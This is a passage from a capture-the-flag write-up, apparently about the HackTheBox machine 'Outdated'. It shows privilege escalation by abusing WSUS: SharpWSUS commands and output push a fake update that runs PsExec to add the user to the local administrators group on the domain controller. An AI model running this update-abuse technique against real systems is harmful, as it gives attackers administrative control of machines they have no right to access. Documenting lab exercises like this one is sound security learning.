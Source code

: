 Then, we can run this command that uses `PsExec.exe` to add ourselves into the administrator group.

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\Users\sflowers\desktop> cmd.exe /c 'SharpWSUS.exe create /payload:"C:\Users\sflowers\desktop\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c \" net localgroup administrators sflowers /add\"" /title:"update"'
[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Users\sflowers\desktop\PsExec64.exe
[*] Arguments: -accepteula -s -d cmd.exe /c " net localgroup administrators sflowers /add"
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c &amp;quot; net localgroup administrators sflowers /add&amp;quot;

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:3d6e513b-b00f-4ca9-941f-038f045e8b15 /computername:Target.FQDN /groupname:"Group Name"

*Evil-WinRM* PS C:\Users\sflowers\desktop> .\SharpWSUS.exe approve /updateid:3d6e513b-b00f-4ca9-941f-038f045e8b15 /computername:dc.outdated.htb /groupname:"groupname"
```
{% endcode %}

Then we need to wait for a while until the update installs. We can check when it installs using this command:

```
.\SharpWSUS.exe check  /updateid:3d6e513b-b00f-4ca9-941f-038f045e8b15 /computername:dc.outdated.htb
```

Once installed, we will see that we are the part of the Administrators group.

<figure><img src="../../../.gitbook/assets/image (2) (4) (5).png" alt=""><figcaption></figcaption></figure>

Then, all we need to do is relog in using `evil-winrm` and we can access the root flag:

<figure><img src="../../../.gitbook/assets/image (1) (12).png" alt=""><figcaption></figcaption></figure>
